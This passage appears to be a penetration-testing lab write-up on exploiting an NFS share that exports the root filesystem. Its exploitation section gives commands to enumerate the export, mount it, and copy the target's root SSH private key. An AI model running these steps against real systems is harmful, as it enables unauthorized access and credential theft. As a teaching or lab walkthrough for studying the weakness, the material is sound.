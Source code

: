 NFS Server: Hosts the shared directories and allows access to them.
NFS Client: Connects to the NFS server and mounts the shared directory, making it accessible as part of the local filesystem.
### Identifying Vulnerabilites or Weakness
**Exported Shares Enumeration and mounting an NFS share**
On our target the NFS service are misconfigured to gave the root(/) file system share to every client on the local network. We can mount the root filesystem of the target on our local machine and can upload, delete and theft important file on the target server.

### Exploitation
To exploit the NFS, we can mount the root file system of target on our attacker machine

```
#check for the availaible rpc services running on the target
rpcinfo -p 192.168.1.103
#check for available file system share that target is being sharing on network
showmount -e 192.168.1.103
service rpcbind start
mkdir /tmp/target
su root
#Mounting the target root file shate to our local machine
mount -t nfs 192.168.1.103:/ /tmp/target
cd /tmp/target/
#Theifting the target private keys
cat /tmp/target/root/id_rsa >> /home/kali/target_private_rsa
```
![](../images/mounting_nfs_share_1.png)